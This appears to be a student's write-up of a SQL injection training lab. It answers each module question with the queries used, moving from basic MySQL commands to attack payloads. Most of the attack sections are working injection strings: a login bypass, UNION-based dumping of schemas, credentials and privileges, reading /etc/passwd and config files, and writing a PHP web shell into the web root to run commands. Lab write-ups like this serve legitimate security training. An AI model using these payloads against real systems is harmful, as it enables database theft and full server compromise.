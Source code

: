 ## Intro to MySQL

>**Q. Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?**

```bash
mysql -u root -h 94.237.59.206 -P 35744 -p
```
```sql
SHOW DATABASES;
```

## SQL Statements

>**Q. What is the department number for the 'Development' department?**

```sql
SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM departments;
```

## Query Results

>**Q. What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

```sql
SELECT * FROM employees WHERE first_name LIKE 'Bar%' AND hire_date = '1990-01-01';
```

## SQL Operators

>**Q. In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

```sql
SELECT * FROM titles;

SELECT * FROM titles WHERE emp_no > 10000 OR title !='engineer';
```

## Subverting Query Logic

>**Q. Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

```sql
tom' OR '1'='1
```

## Using Comments

>**Q. Login as the user with the id 5 to get the flag.**

```sql
user' OR id=5)--    
```

## Union Clause

>**Q. Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.**

```bash
mysql -u root -h 94.237.54.69 -P 59629 -p
```

```sql
SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM employees;

SELECT * FROM departments; 

SELECT dept_no FROM departments UNION SELECT emp_no FROM employees;
```

## Union Injection

>**Q. Use a Union injection to get the result of 'user()'**

```sql
' order by 1-- -

es' UNION select 1,2,3,4-- -

' UNION select 1,@@version,3,4-- -

es' UNION select 1,user(),3,4-- -
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
cn' UNION select 1, username, password, 4 from dev.credentials-- -
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
SELECT super_priv FROM mysql.user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
cn' UNION SELECT 1, grantee, privilege_type, 4, 5 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
cn' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -



```
## Database Enumeration

>**Q. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**

```sql
cn' UNION select 1, username, password, 4 from users-- -
```

## Reading Files

>**Q. We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

## Writing Files

>**Q. Find the flag by using a webshell.**

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "",'<?php system(ls); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("dir /var/www"); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("cat /var/www/flag.txt"); ?>', "", "" into outfile '/var/www/html/shell10.php'-- -
```

## Skills Assessment - SQL Injection Fundamentals

>**Q. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

```sql

' or 1=1 limit 1 -- -+

cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- -

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "","",'<?php system(ls); ?>', "", "" into outfile '/var/www/html/dashboard/shell1.php'-- -

cn' union select "","",'<?php system("dir /"); ?>', "", "" into outfile '/var/www/html/dashboard/shell6.php'-- -

cn' union select "","",'<?php system("cat /flag_....txt"); ?>', "", "" into outfile '/var/www/html/dashboard/shell8.php'-- -
```
